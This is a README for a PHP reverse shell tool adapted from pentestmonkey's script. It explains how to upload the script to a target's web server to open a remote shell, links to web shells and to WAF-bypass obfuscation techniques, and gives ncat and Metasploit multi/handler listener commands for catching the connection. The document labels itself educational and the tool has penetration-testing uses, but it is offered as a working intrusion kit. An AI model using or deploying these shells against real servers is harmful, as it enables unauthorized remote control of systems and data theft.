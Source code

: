 # PHP Reverse Shell

Just a little refresh on the popular PHP reverse shell script [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell). Credits to the original author!

Works on Linux OS and macOS with `/bin/sh` and Windows OS with `cmd.exe`. Script will automatically detect an underlying OS.

Works with both `ncat` and `multi/handler`.

Tested on XAMPP for Linux v7.3.19 (64-bit) with PHP v7.3.19 on Kali Linux v2020.2 (64-bit).

Tested on XAMPP for OS X v7.4.10 (64-bit) with PHP v7.4.10 on macOS Catalina v10.15.6 (64-bit).

Tested on XAMPP for Windows v7.4.3 (64-bit) with PHP v7.4.3 on Windows 10 Enterprise OS (64-bit).

In addition, everything was tested on Docker images [nouphet/docker-php4](https://hub.docker.com/r/nouphet/docker-php4) with PHP v4.4.0 and [steeze/php52-nginx](https://hub.docker.com/r/steeze/php52-nginx) with PHP v5.2.17.

Made for educational purposes. I hope it will help!

**Process pipes on Windows OS do not support asynchronous operations so `stream_set_blocking()`, `stream_select()`, and `feof()` will not work properly, but I found a workaround.**

## How to Run

[/src/php\_reverse\_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php\_reverse\_shell.php) requires PHP v5.0.0 or greater, mainly because `proc_get_status()` is being used.

[/src/php\_reverse\_shell\_older.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php\_reverse\_shell\_older.php) requires PHP v4.3.0 or greater.

**Change the IP address and port number inside the script as necessary.**

Copy [/src/php\_reverse\_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php\_reverse\_shell.php) to your server's web root directory (e.g. to /opt/lampp/htdocs/ on XAMPP) or upload it to your target's web server.

Navigate to the file with your preferred web browser.



Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple\_php\_web\_shell\_post.php) based on HTTP POST request.

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple\_php\_web\_shell\_get.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Check the [simple PHP web shell v2](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple\_php\_web\_shell\_get\_v2.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Find out more about PHP obfuscation techniques for older versions of PHP at [lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF). Credits to the author!



Check the minified scripts in [/src/minified/](https://github.com/ivan-sincek/php-reverse-shell/tree/master/src/minified) directory.

## Set Up a Listener

To set up a listener, open your preferred console on Kali Linux and run one of the examples below.

Set up an `ncat` listener:

```
ncat -nvlp 9000
```

Set up a `multi/handler` module:

```
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```
